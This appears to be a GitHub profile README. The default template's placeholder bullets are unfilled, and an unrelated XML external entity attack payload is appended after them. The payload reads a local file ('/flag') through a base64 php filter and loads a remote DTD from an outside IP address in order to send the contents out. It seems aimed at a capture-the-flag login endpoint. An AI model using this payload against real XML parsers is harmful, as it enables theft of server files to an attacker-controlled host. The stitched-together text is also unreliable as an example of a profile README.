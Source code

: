 - 👋 Hi, I’m @yuhong-zhao
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
yuhong-zhao/yuhong-zhao is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY % xxe SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % get SYSTEM "http://116.62.104.172:8000/a.dtd">
%get;
%text;
%send;
]>

<user><username>&qqq;</username><password>qqwww</password></user>

